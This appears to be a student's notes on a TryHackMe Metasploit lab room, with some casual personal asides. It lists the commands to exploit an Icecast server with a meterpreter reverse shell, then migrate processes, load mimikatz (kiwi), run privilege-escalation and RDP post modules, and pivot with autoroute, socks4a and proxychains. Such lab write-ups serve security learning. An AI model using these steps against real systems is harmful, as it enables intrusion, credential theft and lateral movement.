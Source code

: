 # Metasploit - part of the red primer series

- Metasploit the all powerful pentesters tool (so ive been hearing). Let me also learn to use it, might be useful after all. OOh fuck my data connection is fucking up again :(.
Really having a hard time with my connection to the internet this days. What exactly is happening.????????????

- Learnt to use metasploit help command 

### Modules for every ocassion

[!](https://github.com/ctf-me/TryHackMe/metasploit.jpg)

- Metasploit is absolutely very useful and can save my ass alot if i take my time to learn it. Actually not in the modd to do anything like notes today. But i want to talk to myself thoo.
But on the real metasploit is hella powerful, herh very powerful. See how im just escalating priveledges like a boss.
But one thing i'm scared of is that i wouldn't know how stuff works if i keep interacting with it with metasploit.
 - I think i'll still prefer doing the recons and exploitations manually for now, to get some learning into my sytem.
 
### Move that shell

1.  Metasploit comes with a built-in way to run nmap and feed it's results directly into our database. Let's run that now by using the command `'db_nmap -sV BOX-IP'` 
```
db_nmap -sV $IP
```

- Let's go ahead and see what information we have collected in the database. Try typing the command 'hosts' into the msfconsole now.

- How about something else from the database, try the command 'services' now.

- One last thing, try the command `'vulns'` now. This won't show much at the current moment, however, it's worth noting that Metasploit will keep track of discovered vulnerabilities. One of the many ways the database can be leveraged quickly and powerfully.
 
2. Now that we've scanned our victim system, let's try connecting to it with a Metasploit payload. First, we'll have to search for the target payload. In Metasploit 5 (the most recent version at the time of writing) you can simply type `'use'` followed by a unique string found within only the target exploit. For example, try this out now with the following command `'use icecast'`. What is the full path for our exploit that now appears on the msfconsole prompt? *This will include the exploit section at the start
```
exploit/windows/http/icecast_header
```

- Now type the command `'use NUMBER_FROM_PREVIOUS_QUESTION'`. This is the short way to use modules returned by search results. 

- Next, let's set the payload using this command `'set PAYLOAD windows/meterpreter/reverse_tcp'`. In this way, we can modify which payloads we want to use with our exploits. Additionally, let's run this command `'set LHOST YOUR_IP_ON_TRYHACKME'`. You might have to check your IP using the command `'ip addr'`, it will likely be your tun0 interface.

- Let's go ahead and return to our previous exploit, run the command `use icecast` to select it again.

-  One last step before we can run our exploit. Run the command `'set RHOSTS BOX_IP'` to tell Metasploit which target to attack. 

- Once you're set those variables correctly, run the exploit now via either the command `'exploit'` or the command 'run -j' to run this as a job.

- Once we've started this, we can check all of the jobs running on the system by running the command `jobs`

- After we've established our connection in the next task, we can list all of our sessions using the command `sessions`. Similarly, we can interact with a target session using the command `sessions -i SESSION_NUMBER`



### We're in, now what?

1.  First things first, our initial shell/process typically isn't very stable. Let's go ahead and attempt to move to a different process. First, let's list the processes using the command 'ps'. What's the name of the spool service? 
```
spoolsv.ex
```

2.  Let's go ahead and move into the spool process or at least attempt to! What command do we use to transfer ourselves into the process? This won't work at the current time as we don't have sufficient privileges but we can still try! 
```
migrate
```

3. Well that migration didn't work, let's find out some more information about the system so we can try to elevate. What command can we run to find out more information regarding the current user running the process we are in?
```
getuid
```

4. How about finding more information out about the system itself?
```
sysinfo
```

5. This might take a little bit of googling, what do we run to load mimikatz (more specifically the new version of mimikatz) so we can use it? 
```
load kiwi

load -l [list all extensions]
```

6. Let's go ahead and figure out the privileges of our current user, what command do we run?
```
getprivs
```

7. What command do we run to transfer files to our victim computer? 
```
upload
```

8. How about if we want to run a Metasploit module?
```
run
```

9.  A simple question but still quite necessary, what command do we run to figure out the networking information and interfaces on our victim? 
```
ipconfig
```

- Let's go ahead and run a few post modules from Metasploit. First, let's run the command `run post/windows/gather/checkvm`. This will determine if we're in a VM, a very useful piece of knowledge for further pivoting.

- Next, let's try: `run post/multi/recon/local_exploit_suggester`. This will check for various exploits which we can run within our session to elevate our privileges. Feel free to experiment using these suggestions, however, we'll be going through this in greater detail in the room `Ice`.

- Finally, let's try forcing RDP to be available. This won't work since we aren't administrators, however, this is a fun command to know about: `run post/windows/manage/enable_rdp`

9. One quick extra question, what command can we run in our meterpreter session to spawn a normal system shell? 
```
shell
```

### Making Cisco proud!

1. Let's go ahead and run the command `run autoroute -h`, this will pull up the help menu for autoroute. What command do we run to add a route to the following subnet: 172.18.1.0/24? Use the -n flag in your answer.
```
run autoroute -h 
Output:
meterpreter > run autoroute -h

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Usage:   run autoroute [-r] -s subnet -n netmask
[*] Examples:
[*]   run autoroute -s 10.1.1.0 -n 255.255.255.0  # Add a route to 10.10.10.1/255.255.255.0
[*]   run autoroute -s 10.10.10.1                 # Netmask defaults to 255.255.255.0
[*]   run autoroute -s 10.10.10.1/24              # CIDR notation is also okay
[*]   run autoroute -p                            # Print active routing table
[*]   run autoroute -d -s 10.10.10.1              # Deletes the 10.10.10.1/255.255.255.0 route
[*] Use the "route" and "ipconfig" Meterpreter commands to learn about available routes
[-] Deprecation warning: This script has been replaced by the post/multi/manage/autoroute module


run autoroute -s 10.1.1.0 -n 255.255.255.0
```

2. Additionally, we can start a socks4a proxy server out of this session. Background our current meterpreter session and run the command `search server/socks4a`. What is the full path to the socks4a auxiliary module?
```
auxiliary/server/socks4a
```

3. Once we've started a socks server we can modify our /etc/proxychains.conf file to include our new server. What command do we prefix our commands (outside of Metasploit) to run them through our socks4a server with proxychains?
```
proxychains
```
